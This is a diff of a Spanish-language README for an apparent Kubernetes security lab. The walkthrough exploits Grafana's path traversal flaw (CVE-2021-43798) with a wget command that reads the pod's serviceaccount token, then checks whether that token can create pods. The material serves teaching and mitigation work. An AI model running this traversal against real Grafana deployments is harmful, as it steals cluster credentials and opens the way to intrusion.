

Before and after one commit to Alfesito/Desarrollo-e-Implementacion-de-Medidas-Mitigantes-en-Vulnerabilidades-de-Kubernetes, a Markdown page: kube-lab/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
README lab solution location

````diff
--- a/kube-lab/lab-pentest/README.md
+++ b/kube-lab/README.md
@@ -76,7 +76,9 @@ curl http://10.103.238.75:3000/login | grep version
 ```
 ![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)
 
-3. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a LFI, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.
+## Grafana Path Traversal
+
+1. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a Path Traversal, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.
 
 ``` bash
 wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
@@ -84,7 +86,7 @@ export token=$(cat token)
 ```
 ![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png)
 
-4. Comprobamos si el posible crear pods con el token de Grafana:
+2. Comprobamos si el posible crear pods con el token de Grafana:
 
 ``` bash
 ./kubectl auth can-i create pods --token=$token
````
